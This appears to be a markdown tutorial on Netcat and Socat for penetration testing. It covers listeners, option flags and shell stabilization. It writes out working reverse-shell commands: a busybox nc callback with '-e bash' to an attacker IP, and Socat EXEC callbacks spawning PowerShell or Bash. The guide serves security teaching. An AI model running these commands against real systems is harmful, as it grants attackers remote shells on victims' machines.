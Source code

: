 # Netcat and Socat - A Comprehensive Guide

Netcat and Socat are powerful tools commonly used for network communication, particularly in penetration testing and security assessments. Both tools can facilitate remote access, reverse shells, and port listening. This guide provides an in-depth overview of their usage and syntax.

---
## Quick Reference
On one side, you can listen to a specific port, such as:
```
nc -lnvp 1234
```

On the client-side, you can connect to this port with:
```
nc MACHINE_IP 1234
```

To make the shell interactive, so you can switch users, we need to stabilize it with:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
## Netcat

**Netcat** (often abbreviated as `nc`) is a versatile networking tool that can establish connections between machines, listen on ports, and even transfer data. It is often referred to as the "Swiss Army knife" of networking tools.

### Key Netcat Options

- **`-l`**: Listen mode. This instructs Netcat to listen on a specified port for incoming connections.
- **`-p`**: Specify the port number on which to listen or connect.
- **`-n`**: Numeric-only mode. Disables DNS resolution for hostnames and uses IP addresses directly.
- **`-vV`**: Verbose output, providing useful information such as connection attempts and errors.
- **`-vv`**: Very verbose mode, offering even more detailed debugging information.
- **`-k`**: Keep listening after a client disconnects. Useful for long-running services or repeated connections.

### Listening for Connections (Server Side)

To listen on a specific port (e.g., port 1234), you can run the following command:
```
nc -lnvp 1234
```

- **`-l`**: Listen mode.
- **`-n`**: Skip DNS resolution.
- **`-v`**: Verbose output, helpful for debugging.
- **`-p`**: Specify the port number (`1234`).

### Connecting to a Listener (Client Side)

On the client side, use the following command to connect to the server's IP address and port:
```
nc MACHINE_IP 1234
```

- Replace `MACHINE_IP` with the actual IP address of the server you're connecting to.
- Replace `1234` with the port you are listening on.

### Making a Stable, Interactive Shell

When using Netcat for a reverse shell or remote access, the shell might not be interactive or fully functional. To stabilize it and gain more control (e.g., to switch users), you can use Python to spawn a stable Bash shell:
```
python -c 'import pty; pty.spawn("/bin/bash")
```

### Alternative Method for Stabilizing the Shell

If you're unable to use Python, you can establish a stable shell using the following commands:

1. **On the attacker machine**: Set up a listener on port 4444:

    ```
    nc -lnvp 4444
    ```

2. **On the victim machine**: Connect back to the attacker's IP and port, using `busybox` to invoke a reverse shell:

    ```
    busybox nc 10.21.156.95 4444 -e bash
    ```

3. **To stabilize the shell on the listener side**: Run the following command in the listener:

    ```
    script -qc /bin/bash /dev/null
    ```

4. **Set terminal type** (optional but recommended):

    ```
    export TERM=xterm
    ```

This will provide you with a stable and fully interactive shell session.

---

## Socat

**Socat** (SOcket CAT) is an advanced alternative to Netcat, with more features and greater flexibility. It supports various types of network connections, including TCP, UDP, and Unix domain sockets. Socat is especially useful for handling more complex scenarios.

### Basic Socat Reverse Shell Listener

To create a basic reverse shell listener using Socat, use the following syntax:
```
socat TCP-L:<port> -
```

- **`TCP-L:<port>`**: Listen on the specified TCP port.
- **`-`**: Standard input/output.

This command will allow you to listen on a port for incoming connections and forward data to and from the terminal.

### Victim Machine - Connecting Back to the Listener

#### Windows (Reverse Shell with PowerShell)

On a Windows machine, use the following command to connect back to the attacker’s listener:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- **`TCP:<LOCAL-IP>:<LOCAL-PORT>`**: Specifies the local IP address and port of the listener.
- **`EXEC:powershell.exe,pipes`**: Executes a PowerShell shell using Socat.

#### Linux (Reverse Shell with Bash)

On a Linux machine, use the following command to connect back to the listener:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

- **`TCP:<LOCAL-IP>:<LOCAL-PORT>`**: Specifies the local IP address and port of the listener.
- **`EXEC:"bash -li"`**: Executes a Bash shell in interactive mode.

### Conclusion

Both **Netcat** and **Socat** are indispensable tools for penetration testers, security professionals, and anyone involved in network security assessments. While Netcat is a more lightweight and straightforward tool, Socat offers more advanced capabilities, such as the ability to work with multiple protocols and complex use cases. Depending on the situation and the level of control needed, both tools can be used to facilitate remote access, file transfers, and vulnerability exploitation.

By mastering these tools, you can efficiently manage network connections, reverse shells, and other essential tasks in penetration testing and ethical hacking.

